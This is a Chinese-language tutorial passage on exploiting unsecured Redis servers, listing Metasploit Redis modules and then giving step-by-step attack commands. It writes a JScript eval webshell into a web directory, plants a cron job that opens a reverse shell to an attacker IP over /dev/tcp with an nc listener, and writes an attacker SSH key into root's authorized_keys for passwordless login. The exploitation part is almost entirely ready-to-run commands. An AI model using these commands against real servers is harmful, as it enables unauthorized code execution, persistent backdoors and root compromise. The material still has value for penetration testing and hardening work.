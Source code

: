 

### 4.msf下利用模块

```
auxiliary/scanner/redis/file_upload    normal     Redis File Upload
auxiliary/scanner/redis/redis_login    normal     Redis Login Utility
auxiliary/scanner/redis/redis_server   normal     Redis Command Execute Scanner
```



## 0x03Redis漏洞利用

### 1.获取webshell

 当redis权限不高时，并且服务器开着web服务，在redis有web目录写权限时，可以尝试往web路径写webshell，前提是知道物理路径，精简命令如下：**

```
config set dir E:/www/font
config set dbfilename redis2.aspx
set a "<%@ Page Language=\"Jscript\"%><%eval(Request.Item[\"c\"],\"unsafe\");%>"
save
```

### 2.反弹shell

（1）连接Redis服务器

```
redis-cli –h 192.168.106.135 –p 6379 
```

（2）在192.168.106.133上执行

```
nc –vlp 7999
```

（3）执行以下命令

```
set x "\n\n* * * * * bash -i >& /dev/tcp/192.168.106.133/7999 0>&1\n\n"
config set dir /var/spool/cron/
ubantu文件为：/var/spool/cron/crontabs/
config set dir /var/spool/cron/crontabs/
config set dbfilename root
save
```

### 3.免密码登录ssh

```
ssh-keygen -t rsa
config set dir /root/.ssh/
config set dbfilename authorized_keys
set x "\n\n\nssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDZA3SEwRcvoYWXRkXoxu7BlmhVQz7Dd8H9ZFV0Y0wKOok1moUzW3+rrWHRaSUqLD5+auAmVlG5n1dAyP7ZepMkZHKWU94TubLBDKF7AIS3ZdHHOkYI8y0NRp6jvtOroZ9UO5va6Px4wHTNK+rmoXWxsz1dNDjO8eFy88Qqe9j3meYU/CQHGRSw0/XlzUxA95/ICmDBgQ7E9J/tN8BWWjs5+sS3wkPFXw1liRqpOyChEoYXREfPwxWTxWm68iwkE3/22LbqtpT1RKvVsuaLOrDz1E8qH+TBdjwiPcuzfyLnlWi6fQJci7FAdF2j4r8Mh9ONT5In3nSsAQoacbUS1lul root@kali2018\n\n\n"
save
```
